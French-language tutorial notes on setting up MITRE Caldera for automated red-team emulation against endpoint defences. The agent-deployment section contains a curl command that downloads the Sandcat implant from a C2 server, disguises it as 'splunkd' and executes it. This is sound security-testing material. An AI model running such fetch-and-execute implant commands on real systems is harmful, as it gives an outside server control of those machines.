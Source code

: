 ```yaml
---
Title: Mitre Attack test with Cladera
Type: Doc
Nature: Notes
Création: 10/05/2021
---
```


# Mitre Attack test with Cladera
## Introduction

> CALDERA™ is a cyber security framework designed to easily automate adversary emulation, assist manual red-teams, and automate incident response. It is built on the [MITRE ATT&CK framework](https://attack.mitre.org/) and is an active research project at MITRE

Caldera fonctionne en mode client/server (agent/server). Il peut être utilisé soit pour les opérations offensives(red) ou défensives (blue) et de [différentes manières](https://caldera.readthedocs.io/en/latest/Getting-started.html)(autonomous red-engagements, autonomous incident-response, …).

Dans cette note, nous allons voir le mode "autonomous red-engagements" afin de lancer les attaques sur une cible pour tester, entre autres, les solutions de défense installées sur la machine comme le XDR, l'EPP, l'antivirus, ….

## Installation de Caldera
### Prerequis
- Linux or MacOS operating system
- Python 3.6.1+ (with pip3)
- NB : Recommanded
  - [GoLang](https://golang.org/doc/install)[ ](https://golang.org/doc/install)1.13+ (for optimal agent functionality)
  - Google Chrome browser
  - Hardware: 8GB+ RAM and 2+ CPUs

### Installation
Exécuter la commande
```
# Installation manuelle
git clone https://github.com/mitre/caldera.git --recursive --branch 3.1.0
cd caldera
# install the pip requirements
sudo pip3 install -r requirements.txt

# Start the server
python3 server.py

# Installation via Docker
## clone the repository
git clone https://github.com/mitre/caldera.git --recursive --branch 3.1.0
cd caldera
## Next, build a container
docker build . -t caldera:server
docker run -p 7010:7010 -p 7011:7011 -p 7012:7012 -p 8888:8888 caldera:server
```
 Accéder à l'interface web
> Once started, log in to http://localhost:8888 with red or blue password. To modify these values, edit the conf/local.yml file
NB : (Manual installation) with the red using the password found in the conf/local.yml file (this file will be generated on server start).

## Use cases
### Déploiement d'agent

Sur chaque machine "victime", un agent Caldera doit être installé afin de pouvoir exécuter les attaques. Nous allons utiliser le mode "[Autonomous red-engagements](https://caldera.readthedocs.io/en/latest/Getting-started.html#autonomous-red-team-engagements)" puis que notre but est de tester les solutions de sécurité.Pour ce faire :
1. Se connecter à l'interface avec le compte "**red**" et son mot de passe
2. Dans l'interface du serveur Caldera, cliquer sur "**Navigate**"
3. Sous "**Campaigns**", cliquer sur "**agents**", puis sur "**Click here to deploy an agent**"
4. Entrer les informations nécessaires pour générer la commande d'installation de l'agent :
   - a. Type d'agent: Sandcat (54ndc47) (par exemple). C'est un agent Goland qui communique avec le serveur via http(s)
   - b. La plateforme (OS) de la machine cible : Linux (par exemple)
   - c. l'URL du serveur Caldera : http(s)://server\_ip:8888
   - d. Agent implant name (optionnel) : Nom de la machine victime une fois "possédée" (ex : ubuntud)
5. Exécuter ensuite la commande "**A GoLang agent which communicates through the HTTP contact (sh)**" sur la machine "victime" pour installer l'agent :
```
server="http://192.168.1.19:8888";curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd;chmod +x splunkd;./splunkd -server $server -group red -v
```
> NB : S'assurer que l'agent apparait bien

### Choix d'un profile d'attaque (adversary profile)
Pour lancer des attaques sur la victime (machine cible), il faut choisir un profile d'attaque. Chaque profile correspond à une catégorie de techniques d'attaque de la matrice MITTRE ATT&CK.
> NB : The “Discovery” and “Hunter” adversaries from the Stockpile plugin are good starting profiles.

1. Aller dans Navigate > Adversaries
2. Sélectionner un profile

### Exécution d'une opération
Une fois le profile choisit, on peut lancer l'attaque sur la machine en choisissant une oprétaion.
1. Aller dans Navigate > Operation
2. Entrer le nom de l'opération
3. Sélectionner un agent et d'autres informations
4. Lancer l'opération
> NB :
> - On peut suivre l'exécution des tests en temps réel. En cliquant sur les stars (étoiles), on peut voir le résultat du test.
> - Les tests marqués en "**vert**" sont ceux qui ont réussi.
> - A la fin de l'opération aussi, on peut générer le rapport ou les logs pour voir les détails.

# Documentation
- Full documentation, training and use cases : https://caldera.readthedocs.io/en/latest/
- Github : https://github.com/mitre/caldera
- Releases : https://github.com/mitre/caldera/releases
